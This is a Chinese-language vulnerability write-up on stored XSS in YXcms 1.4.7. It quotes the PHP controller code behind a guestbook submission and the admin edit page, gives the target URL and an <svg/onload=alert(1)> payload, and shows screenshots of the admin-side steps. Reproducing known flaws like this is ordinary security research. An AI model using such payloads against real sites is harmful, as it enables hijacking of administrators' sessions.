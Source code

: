 ```yaml
---
title: "YXCMS 1.4.7储存型xss"
id: zhfly3297
---
```


# YXcms 1.4.7 储存型xss

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

```
public function index()
{
    $ename=in($_GET['col']);
    if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
    $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
    $path=$sortinfo['path'].','.$sortinfo['id'];
    $deep=$sortinfo['deep']+1;
    $this->col=$ename;
    switch ($sortinfo['type']) {
        case 1://文章
            $this->newslist($sortinfo,$path,$deep);
            break;
        case 2://图集
            $this->photolist($sortinfo,$path,$deep);
            break;
        case 3://单页
            $this->page($sortinfo,$path,$deep);
            break;
        case 4://应用

```
 break;
    case 5://自定义

        break;
    case 6://表单
        $this-&gt;extend($sortinfo,$path,$deep);
        break;
    default:
        throw new Exception('未知的栏目类型~', 404);
        break;
} 
``` `}` 
```

后台的文件源码protected/apps/admin/controller/extendfieldController.php

```
public function mesedit()
{
    $tableid=intval($_GET['tabid']);
    if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
    $id=intval($_GET['id']);//信息id
    if(empty($tableid) || empty($id) ) $this->error('参数错误~');
    $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
    if(empty($tableinfo)) $this->error('自定义表不存在~');
    if (!$this->isPost()) {
       $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
       $this->info=$info;
       $this->tableid=$tableid;
       $this->id=$id;
       $this->tableinfo=$tableinfo;
       $this->display();
    }else{
       for($i=1;$i<count($tableinfo);$i++){
        if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
          $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
        else
          $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
       }
       if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
       else $this->error('信息修改失败~');
     }
} 
```

中间没什么过滤

### 复现

```
http://0-sec.org/index.php?r=default/column/index&col=guestbook 
```

payload：

```
<svg/onload=alert(1)> 
```

![image](../img/d5d8d771adaf8da2e7bbe521974ad814.png)

然后登陆后台，查看审核

![image](../img/c15d86f6fe9ce2392e67d0fd2f56d9c7.png)

点击编辑

![image](../img/841b6d0af7ed1e66c899bca37d6e664e.png)